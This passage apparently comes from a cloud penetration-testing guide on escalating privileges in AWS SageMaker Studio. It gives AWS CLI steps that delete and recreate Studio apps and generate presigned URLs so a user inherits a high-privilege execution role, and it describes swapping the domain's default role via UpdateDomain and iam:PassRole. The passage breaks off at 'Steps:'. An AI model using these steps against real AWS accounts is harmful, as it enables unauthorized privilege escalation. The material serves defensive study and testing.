 ```bash
aws sagemaker list-apps \
  --domain-id-equals <DOMAIN_ID> 

# Delete an app
aws sagemaker delete-app \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --app-type JupyterServer \
  --app-name <APP_NAME>

# 4) Create a JupyterServer app for a user profile (will inherit domain default role)
aws sagemaker create-app \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --app-type JupyterServer \
  --app-name <APP_NAME>


# 5) Generate a presigned URL to access Studio with the new domain default role
aws sagemaker create-presigned-domain-url \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --query AuthorizedUrl --output text

# 6) Open the URL in browser, navigate to JupyterLab, open Terminal and verify:
#    aws sts get-caller-identity
#    (should show the high-privilege role from domain defaults)

```

**Potential Impact**: Privilege escalation to the permissions of the specified SageMaker execution role for interactive Studio sessions.

### `sagemaker:UpdateDomain`, `sagemaker:CreateApp`, `iam:PassRole`, `sagemaker:CreatePresignedDomainUrl`, (`sagemaker:DeleteApp`)

With permissions to update a SageMaker Studio Domain, create an app, a presigned URL to the app, and `iam:PassRole`, an attacker can set the default domain `ExecutionRole` to any IAM role that the SageMaker service principal can assume. New Studio apps launched for that profile will run with the swapped role, giving interactive elevated permissions via Jupyter terminals or jobs launched from Studio.

> [!WARNING]
> This attack requires that there are no applications in the domain or the app creation will fail with the error: `An error occurred (ValidationException) when calling the UpdateDomain operation: Unable to update Domain [arn:aws:sagemaker:us-east-1:947247140022:domain/d-fcmlssoalfra] with InService App. Delete all InService apps in the domain including shared Apps for [domain-shared] User Profile, and try again.`

Steps:
